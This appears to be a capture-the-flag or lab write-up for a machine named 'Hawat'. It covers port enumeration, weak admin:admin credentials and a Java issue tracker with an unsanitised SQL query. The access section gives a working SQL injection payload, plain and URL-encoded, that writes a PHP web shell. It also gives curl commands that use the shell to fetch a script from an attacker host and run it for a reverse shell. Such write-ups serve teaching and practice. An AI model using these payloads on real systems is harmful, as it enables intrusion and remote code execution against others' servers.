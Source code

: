 # Hawat

### Enumeration

```
17445/tcp open   unknown
...
30455/tcp open   http         nginx 1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.18.0
|_http-title: W3.CSS
50080/tcp open   http         Apache httpd 2.4.46 ((Unix) PHP/7.4.15)
| http-methods: 
|   Supported Methods: HEAD GET POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Unix) PHP/7.4.15
|_http-title: W3.CSS Template
```

Weak credentials on 17445 and 50080 web services.

admin:admin

```
- Nikto v2.1.6/2.1.5
+ Target Host: 192.168.145.147
+ Target Port: 30455
...
+ GET /phpinfo.php: Output from the phpinfo() function was found.

Key point:
$_SERVER['DOCUMENT_ROOT'] = /srv/http
```

There is a file at 50080: issuetracker.zip

```
issuetracker.zip ---

@GetMapping("/issue/checkByPriority")
...
conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/issue_tracker",connectionProps);
String query = "SELECT message FROM issue WHERE priority='"+priority+"'";
System.out.println(query);
Statement stmt = conn.createStatement();
stmt.executeQuery(query);
...
```

**SQL Injection ->** priority parameter

### Access

```
Key payload:
"<?php system($_GET['cmd']);?>"

Main payload:
' UNION SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/srv/http/cmd.php'; -- 

The SQL Query:
"SELECT message FROM issue WHERE priority='Normal' UNION SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/srv/http/cmd.php'; -- 

Request:
POST /issue/checkByPriority?priority=Normal' UNION SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/srv/http/cmd.php'; --

URL Encoded:
POST /issue/checkByPriority?priority=Normal'%20UNION%20SELECT%20%22%3c%3fphp%20system(%24_GET%5b'cmd'%5d)%3b%20%3f%3e%22%20INTO%20OUTFILE%20%22%2fsrv%2fhttp%2fcmd.php%22%3b%20--%20 HTTP/1.1
```

[https://www.revshells.com/](https://www.revshells.com) - Bash 196 - 443 port - Reverse Shell

```
$ curl 'http://192.168.145.147:30455/cmd.php?cmd=wget http://192.168.49.145:443/shell.sh'
$ curl 'http://192.168.145.147:30455/cmd.php?cmd=bash -p shell.sh'
```

